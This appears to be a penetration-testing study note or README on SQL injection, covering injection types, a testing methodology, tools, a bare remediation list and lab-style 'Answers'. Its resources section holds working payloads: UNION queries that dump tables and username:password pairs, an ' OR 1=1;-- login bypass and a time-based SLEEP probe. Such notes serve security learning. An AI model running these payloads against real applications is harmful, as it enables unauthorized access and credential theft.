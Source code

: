 # SQL Injection

## Description

SQL Injection is a type of security vulnerability that occurs in web applications that use SQL as a back-end database. It allows an attacker to inject malicious code into an SQL statement and execute it on the database. This can result in unauthorized access to sensitive information, data modification, or even data deletion. The vulnerability arises when user-supplied input is not properly validated and escaped before being used in an SQL query. By exploiting SQL Injection, an attacker can bypass authentication mechanisms, retrieve sensitive information such as passwords, and execute arbitrary commands on the database server.


## Techniques

The following are the steps for using SQL Injection as a penetration tester:  

Discover: Find out if the web application is vulnerable to SQL Injection by manually sending crafted input to the application and observing its behavior.

Exploit: If the application is found to be vulnerable, use tools and techniques to exploit the vulnerability and gain access to sensitive data.

Assessment: Once the vulnerability has been exploited, assess the impact of the vulnerability by examining the data that has been exposed, the privileges that have been gained, and the potential for further exploitation.

Reporting: Provide a report to the organization that details the vulnerability, its impact, and the recommended remediation steps.

## Types

UNION-based SQL injection: This type of SQL injection exploits the UNION SQL operator to combine the results of multiple SELECT statements into a single result set.

Error-based SQL injection: This type of SQL injection is based on error messages generated by the database in response to malicious input.

Blind SQL injection: This type of SQL injection is performed when an attacker is unable to see the results of their attacks directly, but must infer the results through indirect means such as observing changes in application behavior.

Boolean-based SQL injection: This type of SQL injection is based on the use of Boolean operators to manipulate the behavior of an SQL statement.

Time-based SQL injection: This type of SQL injection exploits the time it takes for an SQL statement to execute to extract information from a database.

## Resources

select * from users;

select username,password from users;

select * from users where username='admin';

select * from users where username != 'admin';

select * from users where username='admin' or username='jon';

select * from users where username='admin' and password='p4ssword';

select * from users where username like 'a%';

select * from users where username like '%n';

select * from users where username like '%mi%';

The UNION statement combines the results of two or more SELECT statements to retrieve data

SELECT name,address,city,postcode from customers UNION SELECT company,address,city,postcode from suppliers;

insert into users (username,password) values ('bob','password123');

update users SET username='root',password='pass123' where username='admin';

delete from users where username='martin';

delete from users;

In-Band SQL Injection

Error-Based SQL Injection

Union-Based SQL Injection

0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'

0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'

0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users

select * from users where username='%username%' and password='%password%' LIMIT 1;

' OR 1=1;--

select * from users where username='' and password='' OR 1=1;

Answers:

0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users

referrer=admin123' UNION SELECT SLEEP(5),2 from users where username like ‘admin’ and password like ‘4961’;

Remediation:

Prepared Statements (With Parameterized Queries):
Input Validation:
Escaping User Input:

## Tools

sqlmap: A popular tool that automates the process of detecting and exploiting SQL Injection vulnerabilities.

OWASP ZAP: A web application security scanner that can detect SQL Injection vulnerabilities and other types of vulnerabilities.

Burp Suite: A comprehensive web application security testing platform that includes features for detecting and exploiting SQL Injection vulnerabilities.

BeEF: A browser exploitation framework that can be used to test for SQL Injection vulnerabilities.

sqlninja: A tool specifically designed for exploiting SQL Injection vulnerabilities in Microsoft SQL Server.

Havij: An automated SQL Injection tool that can be used to test for vulnerabilities in web applications.

Absinthe: An automated SQL Injection tool that can be used to test for vulnerabilities in web applications.

## SQL Injection

* http://pentestmonkey.net/category/cheat-sheet/sql-injection
* https://github.com/Xyntax/CDK/wiki 

https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/
